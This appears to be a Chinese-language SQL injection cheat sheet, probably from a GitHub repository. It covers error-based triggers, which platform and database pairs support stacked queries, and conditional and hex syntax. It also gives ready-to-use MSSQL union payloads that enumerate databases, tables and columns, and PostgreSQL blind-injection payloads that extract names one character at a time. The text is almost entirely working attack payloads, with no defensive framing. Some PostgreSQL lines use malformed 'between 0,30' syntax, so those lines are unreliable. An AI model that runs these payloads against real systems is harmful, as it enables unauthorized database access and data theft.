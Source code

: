 #### SQLI 思路，首先测试什么

    类型
    过滤字符
    waf

    报错：单引号 注释(--, #, /*comment*/, /*!mysql*/, ), 除0, 类型错误
    堆查询: 支持: asp/asp.net/php + mssql    php + postgreSQL
           不支持: php + mysql, asp/asp.net/php/java + access, java + oracle
    IF:
        mysql: SELECT IF (1=1,'true','false')
        mssql: IF (1=1) SELECT 'true' ELSE SELECT 'false'

    16hex:
        SELECT CHAR(0x66)(S)
        SELECT 0x5045(M) (这不是一个整数，而会是一个16进制字符串）
        SELECT 0x50 + 0x45(M) (现在这是整数了)

#### MySQL 和 SQLServer 注入时的区别

MSSQL 基本表`master, msdb, mssqlweb, empdb, model`

> 库名

```sql
select group_concat(distinct table_name) from information_schema.columns where table_schema=database()


select name from master.dbo.sysdatabases where dbid=1 union select name from yourdatabasename.dbo.sysobjects where xtype=char(85) and name not in (select top XX name from yourdatabasename.dbo.sysobjects where xtype=char(85))--
```

> 获得表段的总序号（与 id 不同）

`union select id from yourdatabasename.dbo.sysobjects where xtype=char(85) and name not in (select top XX name from yourdatabasename.dbo.sysobjects where xtype=char(85))--
`

> 根据表的序号一个个列出字段的名字

`union select name from yourdatabasename.dbo.syscolumns where ID=2073058421 and name not in (select top XX name from yourdatabasename.dbo.syscolumns where ID=2073058421 )--
`

#### PostgreSQL

```
union select datname from pg_database order by 11    #猜字段
and (select length(current_database())) between 0,30 　　　　　　#判断数据库长度
and(select ascii(substr(current_database(),1,1))) between 0,64　　#判断数据库名的第１位是否是在０,64的ascii码之间。
select relname from pg_stat_user_tables limit 1 offset n;
and(select count(*) from pg_stat_user_tables) between 0,64　　#判断数据库表数
and(select length(relname) from pg_stat_user_tables limit 1 offset 0) between 0,64　　#判断数据库表第一个表的长度
and(select ascii(substr(relname,1,1)) from pg_stat_user_tables limit 1 offset 0) between 0,64　　#判断数据库第一张表的第一个字符
```
